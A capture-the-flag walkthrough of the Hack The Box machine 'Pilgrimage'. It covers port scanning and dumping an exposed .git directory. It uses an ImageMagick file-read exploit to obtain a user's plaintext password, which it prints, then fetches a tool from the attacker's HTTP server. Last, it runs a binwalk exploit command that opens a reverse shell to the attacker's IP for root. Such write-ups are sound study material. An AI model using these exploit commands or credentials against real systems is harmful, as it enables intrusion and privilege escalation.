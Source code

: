 # [Pilgrimage](https://app.hackthebox.com/machines/Pilgrimage)

```bash
nmap -p- --min-rate 10000 10.10.11.219 -Pn
```

![Alt text](img/image.png)


After detection of open ports, let's do greater scan for these ports.

```bash
nmap -A -sC -sV -p22,80 10.10.11.219 -Pn  
```

![Alt text](img/image-1.png)


From nmap scan result, I see that it resolves into `pilgrimage.htb`, that's why let's add into `/etc/hosts` file.


![Alt text](img/image-2.png)


Let's do directory enumeration.

```bash
ffuf -u http://pilgrimage.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt -mc all -c -r -sf -ac -o dir_ffuf.txt
```

![Alt text](img/image-3.png)

Let's dump all `.git` directory via [git-dumper](https://github.com/arthaud/git-dumper)

```bash
git-dumper http://pilgrimage.htb/.git/ pilgrimage_git
```

![Alt text](img/image-4.png)

By looking at `index.php` file, I see that `magick` software is used to shorten the length of files.

![Alt text](img/image-5.png)


I searched publicly known exploit for this version of software.


That's [CVE-2022-44268](https://github.com/voidz0r/CVE-2022-44268)


From `login.php` file of application, I see that credentials are located in `/var/db/pilgrimage`, that's why let's dump these file by using above exploit.

![Alt text](img/image-6.png)


![Alt text](img/image-7.png)

We found credentials of `emily` user.

emily: abigchonkyboi123


Let's connect into machine via `ssh`

user.txt

![Alt text](img/image-8.png)


This user cannot run `sudo -l`, let's upload `pspy64` into machine to see background jobs.

1.First, let's open http server.
```bash
python3 -m http.server --bind 10.10.14.2 8080
```
![Alt text](img/image-9.png)

2.Let's download this binary from out http server via `wget` binary.
```bash
wget http://10.10.14.2:8080/pspy64
```

![Alt text](img/image-10.png)

Let's run this binary to see results.

![Alt text](img/image-11.png)


I see that there's bash script is running called `malwarescan.sh`, let's read content of this script.

![Alt text](img/image-12.png)

I see that there's `binwalk` command is executed, let's search publicly known exploit for below version of `binwalk`.

![Alt text](img/image-13.png)

That's [CVE-2022-4510](https://www.exploit-db.com/exploits/51249).

I found [exploit](https://github.com/adhikara13/CVE-2022-4510-WalkingPath)

```bash
python3 walkingpath.py reverse input.png 10.10.14.2 1337
```

After this we need see malicious `.png` file called `binwalk_exploit.png`. And we need to copy this malicious image into `/var/www/pilgrimage.htb/shrunk/`.

![Alt text](img/image-14.png)


After this I got shell from port `1337`.

root.txt

![Alt text](img/image-15.png)